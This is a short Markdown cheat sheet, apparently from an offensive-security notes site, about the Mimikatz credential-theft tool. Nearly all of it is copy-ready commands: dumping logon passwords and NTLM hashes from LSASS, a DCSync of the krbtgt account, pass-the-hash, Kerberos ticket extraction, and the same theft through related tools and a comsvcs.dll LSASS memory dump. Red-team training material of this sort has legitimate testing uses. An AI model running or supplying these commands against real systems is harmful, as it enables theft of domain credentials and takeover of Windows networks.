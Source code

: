 ```yaml
---
layout: app
title: "Mimikatz"
image: "https://www.notion.so/image/https%3A%2F%2Fcdn-icons-png.flaticon.com%2F512%2F3786%2F3786242.png?table=block&id=2c256cbe-7986-4e8f-84ff-621520fe2fc9&spaceId=407e3b0e-5fd1-480d-b61d-72fe237d3fc6&width=250&userId=95ce699a-847b-4e7d-863b-90f869bd6ef3&cache=v2"
tags: ["mimikatz"]

---
```


[Dumping Credentials from Lsass Process Memory with Mimikatz](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-credentials-from-lsass.exe-process-memory)

[PayloadsAllTheThings/Windows - Mimikatz.md at master · swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Mimikatz.md)

## One Liner

```powershell
mimikatz.exe 'privilege::debug "lsadump::dcsync /user:krbtgt"' exit
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" exit
```

### Running as previous created ticket

```powershell
mimikatz # misc::cmd
```

# Over pass the hash

```powershell
mimikatz # sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<NTLM Hash> /run:<process to run>
```

## Commands

```powershell
sekurlsa::logonpasswords => Get NTLM, SHA1 and DPAPI hashes authenticated passwords
lsadump::lsa /patch => Get LM and NTLM user hashes passwords
**dir \\UNC and then get kerberos tickets**
sekurlsa::tickets => Get Golden and Silver Tickets
```

# Extra Tools

## Invoke-Mimikatz

```powershell
Invoke-Mimikatz -Command '"sekurlsa::ekeys"'
```

## SafetyKatz

```powershell
SafetyKatz.exe "sekurlsa::ekeys"
```

## SharpKatz

```powershell
SharpKatz.exe --Command ekeys
```

## Dumpert

```powershell
rundll32.exe C:\Dumpert\Outflank-Dumpert.dll,Dump
```


## pypykatz

```powershell
pypykatz.exe live lsa
```

## comsvcs.dll

```powershell
tasklist /FI "IMAGENAME eq lsass.exe"
rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump
<lsass process ID> C:\Users\Public\lsass.dmp full
```

### From Linuz

- impacket
- Physmem2profit